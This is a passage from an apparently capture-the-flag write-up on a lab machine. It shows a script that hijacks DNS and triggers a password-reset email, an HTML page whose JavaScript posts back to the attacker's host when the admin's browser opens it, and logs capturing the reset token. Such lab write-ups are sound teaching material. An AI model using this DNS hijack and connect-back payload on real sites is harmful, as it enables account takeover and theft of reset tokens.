 It starts `fakedns.py` in the background, and records the pid. Then it forwards the zone, then triggers the reset email with `curl`. It sleeps 60 seconds, and then kills `fakedns.py`. My webserver and any other connections I want to catch can be managed in other tmux panes.

#### JavaScript Connect Back

Now that the admin is requesting a page from my IP, I can serve a page containing JavaScript that will make requests. This will end up being a complex set of `XMLHttpRequest` objects, just like in the original [CrossFit](/2021/03/20/htb-crossfit.html#csrf-account-request) machine. I like to build in smaller pieces, so I’ll start with simple JavaScript to make a POST back to me.

I’ll start with a page with script designed to just POST back to my VM:

```

<html>
  <head>
    <title>pwned</title>
  </head>
  <body>
    <script>
      var req = new XMLHttpRequest();
      req.open("POST", "http://0xdf-employees.crossfit.htb/test", false);
      req.send("0xdf was here");
    </script>
  </body>
</html>  

```

With the Python webserver running (`python3 -m http.server 80`), I’ll run the trigger script:

```

oxdf@parrot$ ./trigger.sh 
[*] Starting DNS server
[*] Forwarding zone
>> Parsed 1 rules from ./fakedns.conf
ok
[*] Triggering password reset
>> Matched Request - 0xdf-employees.crossfit.htb.
>> Matched Request - 0xdf-employees.crossfit.htb.
Reset link sent, please check your email.
[*] Sleeping 60 seconds waiting for link click
>> Matched Request - 0xdf-employees.crossfit.htb.

```

That last resolution is the browser click, and there’s a request at the webserver:

```
10.10.10.232 - - [11/Jul/2021 07:02:08] "GET /password-reset.php?token=3eea14906a89827ba66deb4a76fc2e9a131e4c6ad8cdb05e4782c6fa6e691b4c3bc40a6a7a3db51134f6dcc393b96ef4613a15a02cd88afc3d5b580e223aaacc HTTP/1.1" 200 -

```
